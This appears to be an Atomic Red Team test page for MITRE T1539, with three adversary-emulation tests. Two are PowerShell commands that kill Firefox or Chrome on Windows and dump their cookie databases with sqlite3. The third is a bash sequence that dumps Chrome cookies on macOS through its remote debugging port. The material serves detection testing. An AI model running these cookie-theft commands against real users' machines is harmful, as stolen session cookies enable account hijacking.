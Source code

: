 ```yaml
---
tags: [T1539, atomic_test]
filename: "[[T1539|T1539 - Steal Web Session Cookie]]"
---
```

# T1539 - Steal Web Session Cookie

## Atomic Test #1 - Steal Firefox Cookies (Windows)
This test queries Firefox's cookies.sqlite database to steal the cookie data contained within it, similar to Zloader/Zbot's cookie theft function. 
Note: If Firefox is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 4b437357-f4e9-4c84-9fa6-9bcee6f826aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539FirefoxCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "firefox" -force -erroraction silentlycontinue
$CookieDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*\cookies.sqlite"
"select host, name, value, path, expiry, isSecure, isHttpOnly, sameSite from [moz_cookies];" | cmd /c #{sqlite3_path} "$CookieDBLocation" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #2 - Steal Chrome Cookies (Windows)
This test queries Chrome's SQLite database to steal the encrypted cookie data, designed to function similarly to Zloader/Zbot's cookie theft function. 
Once an adversary obtains the encrypted cookie info, they could go on to decrypt the encrypted value, potentially allowing for session theft. 
Note: If Chrome is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 26a6b840-4943-4965-8df5-ef1f9a282440





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cookie_db | Filepath for Chrome cookies database | string | $env:localappdata&#92;Google&#92;Chrome&#92;User Data&#92;Default&#92;Network&#92;Cookies|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539ChromeCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "chrome" -force -erroraction silentlycontinue
"select host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly from [Cookies];" | cmd /c #{sqlite3_path} "#{cookie_db}" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{sqlite3_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #3 - Steal Chrome Cookies via Remote Debugging (Mac)
The remote debugging functionality in Chrome can be used by malware for post-exploitation activities to obtain cookies without requiring keychain access. By initiating Chrome with a remote debug port, an attacker can sidestep encryption and employ Chrome's own mechanisms to access cookies.

If successful, this test will output a list of cookies.

Note: Chrome processes will be killed during this test.

See https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

**Supported Platforms:** macOS


**auto_generated_guid:** e43cfdaf-3fb8-4a45-8de0-7eee8741d072






#### Attack Commands: Run with `bash`! 


```bash
killall 'Google Chrome'
sleep 1
open -a "/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --args --remote-debugging-port=1337 --remote-allow-origins=http://localhost/
sleep 1
/tmp/WhiteChocolateMacademiaNut/chocolate -d cookies -p 1337
```

#### Cleanup Commands:
```bash
rm -rf /tmp/WhiteChocolateMacademiaNut
```



#### Dependencies:  Run with `bash`!
##### Description: Install Go
##### Check Prereq Commands:
```bash
go version
```
##### Get Prereq Commands:
```bash
brew install go
```
##### Description: Download and compile WhiteChocolateMacademiaNut
##### Check Prereq Commands:
```bash
/tmp/WhiteChocolateMacademiaNut/chocolate -h
```
##### Get Prereq Commands:
```bash
git clone https://github.com/slyd0g/WhiteChocolateMacademiaNut.git /tmp/WhiteChocolateMacademiaNut
cd /tmp/WhiteChocolateMacademiaNut
go mod init chocolate
go mod tidy
go build
```




<br/>
